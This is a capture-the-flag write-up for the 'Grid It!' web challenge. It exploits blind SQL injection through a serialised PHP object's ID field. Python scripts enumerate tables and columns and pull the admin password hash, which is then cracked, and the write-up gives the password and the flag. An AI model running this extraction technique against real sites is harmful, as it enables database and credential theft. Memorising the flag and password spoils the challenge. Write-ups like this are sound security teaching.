








## Grid It!  



The webpage first presents us with a login page. Any attempts at SQli fail, so we can just register a legitimate account first and login.  



On the main page, there is a grid functionality where we can supply `x` and `y` coordinates as points to be plotted, and we can also delete points.  



A lot of the comments mention "blind", hinting that there is a blind SQLi vulnerability somewhere.  


One of the comments also hinted at the existence of an admin account.  



In the `delete` functionality, we can see that the server actually uses PHP object deserialisation to pass in the points.  



A reasonable guess would be that the backend deletes points using a query like `DELETE * from points where ID=<id>`, so we can try injecting through the `ID` field in the PHP object.  

Changing the `ID` field of the PHP object to `1 or 1` deletes all the points, proving the SQLi vector.  



Since this is a blind SQLi, we can determine whether a condition is true or false by whether the points get deleted after submitting our payloads. 

We can write a Python script to automate adding and clearing points, and testing SQLi payloads.  

```python
def add():
    s.post(f"{url}/controller.php?action=add_point", data={ 'x': 1, 'y': 1 })

def inject(payload):
    payload = f'0 or {payload}'

    obj = (
        'O:5:"point":3:{'
        's:1:"x";s:4:"aaaa";'
        's:1:"y";s:1:"2";'
        f's:2:"ID";s:{len(payload)}:"{payload}";'
        '}'
    )

    res = s.post(f'{url}/controller.php?action=delete_point', params={ 'point': obj })

    points = re.findall(r"<a href='controller\.php\?action=delete([^']*)'>", res.text)
    return len(points) == 0

def clear():
    inject("0 or 1")
```

We can also define some helper functions to bruteforce the number of entries and column values.  

```python
charset = string.ascii_lowercase + string.digits + "{}_"

def setup(func):
    def wrapper(*args):
        clear()
        add()
        return func(*args)
    return wrapper

@setup
def get_value(col, table, offset=0, cond=''):
    length = 0
    while True:
        print("Trying:", length)
        if inject(f"(select length({col}) from {table} {cond} limit 1 offset {offset})={length}"):
            break
        length += 1
    
    print("Length:", length)

    name = ""
    for _ in range(length):
        add()
        
        for char in charset:
            print("Trying:", char, '|', name)
            if inject(f"(select {col} from {table} {cond} limit 1 offset {offset}) like '{name}{char}%'"):
                name += char
                break
    return name

@setup
def get_entries(table, cond=''):
    entries = 0

    while True:
        print("Trying:", entries)
        if inject(f'(select count(*) from {table} {cond})={entries}'):
            return entries
        
        entries += 1
```

We can first find out the number of tables in the database, giving us the tables `point` and `user`.  

```python
def get_tables():
    tables = get_entries("information_schema.tables", "where table_schema=DATABASE()")

    print(f"Found {tables} tables")

    table_names = []

    for table in range(tables):
        name = get_value("table_name", "information_schema.tables", table, "where table_schema=DATABASE()")

        print("Table name:", name)
        table_names.append(name)

    print("Tables:", table_names)
```

We can then get the columns `username`, `password` and `uid` from the table `user`.  

```python
def get_columns(table):
    cols = get_entries("information_schema.columns", f'where table_name="{table}"')
    print("Table:", table, "| Columns:", cols)

    col_names = []
    for col in range(cols):
        name = get_value("column_name", "information_schema.columns", col, f'where table_name="{table}"')
        print(f"Column {col + 1}:", name)

        col_names.append(name)

    print("Table:", table, '| Columns:', col_names)

get_columns("user")
```

Running this will return `True`, proving the existence of an admin account.  

```python
clear()
add()
print(inject('(select count(*) from user where username="admin")>0'))
```

Finally, since we know the name of the password column, we can bruteforce the admin account's password, giving us the hash `0c2c99a4ad05d39177c30b30531b119b`.  

```python
def get_password(username):
    pwd = get_value('password', 'user', 0, f"where username='{username}'")
    print("Username:", username, '| Password:', pwd)

get_password("admin")
```

We can then crack the password hash using [Crackstation](https://crackstation.net/), giving us `grapevine`.  



Logging in with the admin credentials will give us the flag.  



Flag: `ctflearn{obj3ct_inj3ct1on}`